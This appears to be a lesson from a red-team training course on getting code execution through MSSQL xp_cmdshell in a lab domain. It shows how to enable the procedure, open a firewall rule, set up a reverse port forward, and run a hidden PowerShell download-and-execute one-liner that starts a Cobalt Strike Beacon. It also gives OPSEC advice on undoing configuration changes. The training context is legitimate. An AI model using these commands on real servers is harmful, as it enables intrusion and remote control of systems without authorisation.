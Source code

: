 The _xp_cmdshell_ procedure can be used to execute shell commands on the SQL server if you have sysadmin privileges.  `Invoke-SQLOSCmd` from PowerUpSQL provides a simple means of using it.
```
beacon> powershell Invoke-SQLOSCmd -Instance "sql-2.dev.cyberbotic.io,1433" -Command "whoami" -RawResults

dev\mssql_svc
```
  

The same will fail if you try manually in Heidi or mssqlclient, because xp_cmdshell is disabled.
```sql
SQL> EXEC xp_cmdshell 'whoami';
[-] ERROR(SQL-2): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server.
```
  

To enumerate the current state of xp_cmdshell, use:
```sql
SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/406/8c2/83c/xpcmdshell-disabled.png)

  

A value of _0_ shows that xp_cmdshell is disabled. To enable it:
```sql
sp_configure 'Show Advanced Options', 1; RECONFIGURE;
sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```
  

Query sys.configurations again and the xp_cmdshell value should be _1_; and xp_cmdshell will also now work.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/d9c/f07/b8a/xpcmdshell.png)

  **OPSEC**  
  
If you're going to make this type of configuration change to a target, you must ensure you set it back to its original value afterwards.  
  
The reason this works with `Invoke-SQLOSCmd` is because it will automatically attempt to enable xp_cmdshell if it's not already, execute the given command, and then disable it again.  This is a good example of why you should study your tools before you use them, so you know what is happening under the hood.

With command execution, we can work towards executing a Beacon payload.  As with other servers in the lab, the SQL servers cannot talk directly to our team server in order to download a hosted payload.  Instead, we must setup a reverse port forward to tunnel that traffic through our C2 chain.
```
beacon> run hostname
wkstn-2

beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080

beacon> rportfwd 8080 127.0.0.1 80
[+] started reverse port forward on 8080 to 127.0.0.1:80
```
  

Next, host `smb_x64.ps1` at `/b` on the team server.  We know SMB will work because we can validate that port 445 is open on the target SQL server.
```
beacon> portscan 10.10.122.25 445
(ICMP) Target '10.10.122.25' is alive. [read 8 bytes]
10.10.122.25:445 (platform: 500 version: 10.0 name: SQL-2 domain: DEV)
Scanner module is complete
```
  

We can now download and execute the payload.
```sql
EXEC xp_cmdshell 'powershell -w hidden -c "iex (new-object net.webclient).downloadstring("""http://wkstn-2:8080/b""")"';
```
  

Keep an eye on your web log so you know when the payload has been fetched.
```
01/05 15:09:07 visit (port 80) from: 127.0.0.1
	Request: GET /b
	page Serves /home/attacker/cobaltstrike/uploads/smb_x64.ps1
	null
```
  

You can then link to the Beacon.
```
beacon> link sql-2.dev.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337
[+] established link to child beacon: 10.10.122.25
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/028/123/c7d/mssqlsvc-beacon.png)

  

  What payload would you use if port 445 was closed?  Experiment with using the pivot listener here instead of SMB.